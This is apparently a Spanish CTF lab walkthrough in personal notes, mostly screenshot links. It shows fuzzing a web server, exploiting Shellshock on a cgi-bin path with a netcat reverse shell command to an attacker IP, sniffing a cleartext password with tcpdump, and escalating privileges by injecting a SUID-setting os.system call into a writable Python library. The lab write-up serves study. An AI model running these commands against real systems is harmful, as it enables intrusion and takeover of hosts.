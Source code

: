 Hacemos el reconocimiento con nmap:
![[Mis apuntes/ANEXOS/Pasted image 20230923120606.png]]
Y esta sería la página web que corre por el puerto 80:
![[Mis apuntes/ANEXOS/Pasted image 20230923120726.png]]
Viendo el código fuente nos encontramos con esto:
![[Mis apuntes/ANEXOS/Pasted image 20230923120757.png]]
Hacemos fuzzing web y nos encontramos con el directorio gate:
![[Mis apuntes/ANEXOS/Pasted image 20230923121142.png]]
![[Mis apuntes/ANEXOS/Pasted image 20230923121157.png]]
Seguimos haciendo fuzzing y nos encontramos con el directorio cerberus:
![[Mis apuntes/ANEXOS/Pasted image 20230923121422.png]]
![[Mis apuntes/ANEXOS/Pasted image 20230923121431.png]]
Y ahora si volvemos a hacer fuzzing, nos encontramos con el directorio tartarus (pero usando el diccionario common.txt):
![[Mis apuntes/ANEXOS/Pasted image 20230923121654.png]]
![[Mis apuntes/ANEXOS/Pasted image 20230923121711.png]]
Y dentro del código fuente tenemos esto:
![[Mis apuntes/ANEXOS/Pasted image 20230923121734.png]]
De todos modos, si volvemos a hacer fuzzing desde la raíz pero usando el diccionario common.txt, vemos el directorio cgi-bin:
![[Mis apuntes/ANEXOS/Pasted image 20230923121831.png]]
Y si hacemos fuzzing otra vez pero sobre el cgi-bin, vemos el directorio underworld:
![[Mis apuntes/ANEXOS/Pasted image 20230923122003.png]]
![[Mis apuntes/ANEXOS/Pasted image 20230923122021.png]]
Al tratarse de un cgi-bin, podemos pensar que estamos ante un shellshock, por lo que buscamos exploits en metasploit:
![[Mis apuntes/ANEXOS/Pasted image 20230923122231.png]]
Establecemos la siguiente configuración en el exploit:
![[Mis apuntes/ANEXOS/Pasted image 20230923122359.png]]
Y así nos debería quedar la configuración:
![[Mis apuntes/ANEXOS/Pasted image 20230923122435.png]]
Y así debería funcionar, aunque podemos hacerlo de forma manual:
![[Mis apuntes/ANEXOS/Pasted image 20230923122634.png]]
Nos lo bajamos:
![[Mis apuntes/ANEXOS/Pasted image 20230923122703.png]]
Y ejecutamos el exploit de la siguiente manera:
```bash
php 34766.php -u http://192.168.0.72/cgi-bin/underworld/ -c "nc -e /bin/bash 192.168.0.63 443"
```
![[Mis apuntes/ANEXOS/Pasted image 20230923122846.png]]
Y recibimos la conexión:
![[Mis apuntes/ANEXOS/Pasted image 20230923122916.png]]
Vamos a descargar y ejecutar el pspy dentro de esta máquina para conocer si hay algo corriendo por detrás:
![[Mis apuntes/ANEXOS/Pasted image 20230923123126.png]]
![[Mis apuntes/ANEXOS/Pasted image 20230923123144.png]]
Y vemos que se está ejecutando un script con python2 dentro del directorio /opt:
![[Mis apuntes/ANEXOS/Pasted image 20230923123236.png]]
Pero no tenemos permisos para acceder:
![[Mis apuntes/ANEXOS/Pasted image 20230923123309.png]]
Pero sí podemos capturar el tráfico de red de este servicio usando tcpdump, por lo que primero listamos las interfaces de red:
![[Mis apuntes/ANEXOS/Pasted image 20230923123449.png]]
Y ahora capturamos el tráfico de la interfaz .lo:
```bash
tcpdump -i lo -w captura.pcap
```
![[Mis apuntes/ANEXOS/Pasted image 20230923123632.png]]
Y ahora este pcap vamos a compartirlo con mi máquina atacante para analizarlo con wireshark:
![[Mis apuntes/ANEXOS/Pasted image 20230923123742.png]]
![[Mis apuntes/ANEXOS/Pasted image 20230923123752.png]]
Y nos encontramos con una contraseña:
![[Mis apuntes/ANEXOS/Pasted image 20230923123930.png]]
```
hades:PTpZTfU4vxgzvRBE
```
Y sabemos que hay otro usuario llamado hades, además de estar abierto el puerto 22:
![[Mis apuntes/ANEXOS/Pasted image 20230923124047.png]]
Y tenemos acceso por ssh:
![[Mis apuntes/ANEXOS/Pasted image 20230923124144.png]]
Y ahora sí tenemos acceso al directorio /opt:
![[Mis apuntes/ANEXOS/Pasted image 20230923124209.png]]
Y vemos que podemos escribir dentro de este script:
![[Mis apuntes/ANEXOS/Pasted image 20230923124339.png]]
Por tanto miramos a ver la librería ftplib para ver si la podemos editar e inyectar ahí un comando malicioso:
```bash
nano /usr/lib/python2.7/ftplib.py
```
Y al principio del todo añadimos la librería os para cambiar los permisos de la bash
```python
import os

os.system("chmod u+s /bin/bash")
```

